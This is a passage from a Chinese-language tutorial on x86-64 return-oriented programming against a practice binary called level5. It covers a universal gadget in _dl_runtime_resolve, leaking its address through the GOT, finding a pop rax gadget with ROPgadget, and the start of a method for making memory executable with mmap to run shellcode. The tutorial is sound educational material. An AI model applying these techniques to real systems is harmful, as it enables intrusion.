 从 `0x7ffff7def235` 开始，就是这个通用gadget的地址了。通过这个gadget我们可以控制rdi，rsi，rdx，rcx， r8，r9的值。但要注意的是 `_dl_runtime_resolve()` 在内存中的地址是随机的。所以我们需要先用information leak得到 `_dl_runtime_resolve()` 在内存中的地址。那么 `_dl_runtime_resolve()` 的地址被保存在了哪个固定的地址呢？

通过反编译level5程序我们可以看到 `write@plt()` 这个函数使用PLT [0] 去查找write函数在内存中的地址，函数jump过去的地址`*0x600ff8`其实就是 `_dl_runtime_resolve()` 在内存中的地址了。所以只要获取到0x600ff8这个地址保存的数据，就能够找到 `_dl_runtime_resolve()` 在内存中的地址：

```
0000000000400420 <write@plt-0x10>:
  400420:   ff 35 ca 0b 20 00       pushq  0x200bca(%rip)        # 600ff0 <_GLOBAL_OFFSET_TABLE_+0x8>
  400426:   ff 25 cc 0b 20 00       jmpq   *0x200bcc(%rip)        # 600ff8 <_GLOBAL_OFFSET_TABLE_+0x10>
  40042c:   0f 1f 40 00             nopl   0x0(%rax)

gdb-peda$ x/x 0x600ff8
0x600ff8 <_GLOBAL_OFFSET_TABLE_+16>:    0x00007ffff7def200

gdb-peda$ x/21i 0x00007ffff7def200
   0x7ffff7def200 <_dl_runtime_resolve>:    sub    rsp,0x38
   0x7ffff7def204 <_dl_runtime_resolve+4>:  mov    QWORD PTR [rsp],rax
   0x7ffff7def208 <_dl_runtime_resolve+8>:  mov    QWORD PTR [rsp+0x8],rcx
   0x7ffff7def20d <_dl_runtime_resolve+13>: mov    QWORD PTR 
[rsp+0x10],rdx
…. 
```

另一个要注意的是，想要利用这个gadget，我们还需要控制rax的值，因为gadget是通过rax跳转的：

```
0x7ffff7def235 <_dl_runtime_resolve+53>:    mov    r11,rax
……
0x7ffff7def25e <_dl_runtime_resolve+94>:    jmp    r11 
```

所以我们接下来用ROPgadget查找一下libc.so中控制rax的gadget：

```
ROPgadget --binary libc.so.6 --only "pop|ret" | grep "rax"
0x000000000001f076 : pop rax ; pop rbx ; pop rbp ; ret
0x0000000000023950 : pop rax ; ret
0x000000000019176e : pop rax ; ret 0xffed
0x0000000000123504 : pop rax ; ret 0xfff0 
```

`0x0000000000023950` 刚好符合我们的要求。有了 `pop rax` 和 `_dl_runtime_resolve` 这两个gadgets，我们就可以很轻松的调用想要的调用的函数了。

## 0x02 利用mmap执行任意shellcode

看了这么多rop后是不是感觉我们利用rop只是用来执行system有点太不过瘾了？另外网上和msf里有那么多的shellcode难道在默认开启DEP的今天已经没有用处了吗？并不是的，我们可以通过mmap或者mprotect将某块内存改成RWX(可读可写可执行)，然后将shellcode保存到这块内存，然后控制pc跳转过去就可以执行任意的shellcode了，比如说建立一个socket连接等。下面我们就结合上一节中提到的通用gadgets来让程序执行一段shellcode。

我们测试的目标程序还是level5。在exp中，我们首先用上一篇中提到的 `_dl_runtime_resolve` 中的通用gadgets泄露出 `got_write` 和 `_dl_runtime_resolve` 的地址。
